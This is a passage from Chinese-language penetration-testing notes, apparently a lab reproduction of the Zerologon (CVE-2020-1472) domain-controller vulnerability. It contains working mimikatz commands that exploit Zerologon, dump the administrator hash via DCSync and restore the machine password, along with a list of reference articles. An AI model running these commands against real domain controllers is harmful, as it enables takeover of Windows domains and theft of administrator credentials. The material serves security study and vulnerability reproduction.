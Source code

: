 6. 验证密码恢复
    
    重复第3步，验证下是否恢复成功
    
    ![Untitled](Zerologon%E5%9F%9F%E6%8F%90%E6%9D%83%E6%BC%8F%E6%B4%9E%2051e6b1deec904700ab4e89dcc473305c/Untitled%2021.png)
    

以上还可以直接用 **mimikatz** 一步到位，不过需要新版的，支持 ZeroLogon 漏洞利用：https://github.com/gentilkiwi/mimikatz

流程：

```
ZeroLogon检测：
mimikatz.exe "lsadump::zerologon /target:WIN-8GA56TNV3MV.test.org /account:WIN-8GA56TNV3MV$" exit

ZeroLogon利用：
mimikatz.exe "lsadump::zerologon /target:WIN-8GA56TNV3MV.test.org /account:WIN-8GA56TNV3MV$ /exploit" exit

提取administrator账号hash:
mimikatz.exe "lsadump::dcsync /domain:test.org /dc:WIN-8GA56TNV3MV.test.org /user:administrator /authuser:WIN-8GA56TNV3MV$ /authdomain:test /authpassword:"" /authntlm" exit

还原密码:
mimikatz.exe "lsadump::postzerologon /target:test.org /account:WIN-8GA56TNV3MV$" exit
```

参考文章：

[Zerologon:Unauthenticated domain controller compromise by subverting Netlogon cryptography (CVE-2020-1472)](https://www.secura.com/uploads/whitepapers/Zerologon.pdf)

[域渗透系列--那些一键打域控的漏洞之ZeroLogon](https://www.jianshu.com/p/7bd3f242c09c)

[CVE-2020-1472: NetLogon特权提升漏洞分析](https://cert.360.cn/report/detail?id=2e904ef9ac96834a3dd7fc058cea4fe5)

[ZeroLogon (CVE-2020-1472) 漏洞利用](https://blog.csdn.net/Captain_RB/article/details/120643838)

[CVE-2020-1472域内提权漏洞复现](https://www.exterminate-dog.com/2022/01/17/2022002/)
